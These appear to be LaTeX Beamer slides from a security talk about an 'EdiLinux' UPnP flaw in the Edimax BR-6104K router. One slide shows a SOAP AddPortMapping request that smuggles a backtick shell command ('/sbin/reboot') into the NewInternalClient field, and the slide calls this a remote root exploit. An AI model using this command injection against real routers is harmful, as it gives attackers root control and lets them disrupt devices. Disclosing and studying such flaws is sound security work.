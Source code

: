 \documentclass[10pt]{beamer}
\begin{document}
\begin{frame}[fragile]

\frametitle{``EdiLinux'' hack -- continued}

\begin{verbatim}
struct portMap
{
   int m_PortMappingEnabled;
   long int m_PortMappingLeaseDuration;
   char m_RemoteHost[16];
   char m_ExternalPort[6];
   char m_InternalPort[6];
   char m_PortMappingProtocol[4];
   char m_InternalClient[16];
   char m_PortMappingDescription[50];

        struct portMap* next;
        struct portMap* prev;
} *pmlist_Head, *pmlist_Tail, *pmlist_Current;
\end{verbatim}

There is 15 bytes for exploit code!

\end{frame}

\begin{frame}[fragile]

\frametitle{``EdiLinux'' hack -- continued}

The following SOAP code remotely \textit{reboots} the router:

\begin{verbatim}
server._sa(soapaction2).AddPortMapping(NewRemoteHost="",
    NewExternalPort=21, NewProtocol="TCP", NewInternalPort=21,
    NewInternalClient="`/sbin/reboot`", NewEnabled=1,
    NewPortMappingDescription="blah", NewLeaseDuration=0)
\end{verbatim}

Remote root exploit for just 30 Euro!

UPnP is by default off on the Edimax BR-6104K.

\end{frame}
\end{document}
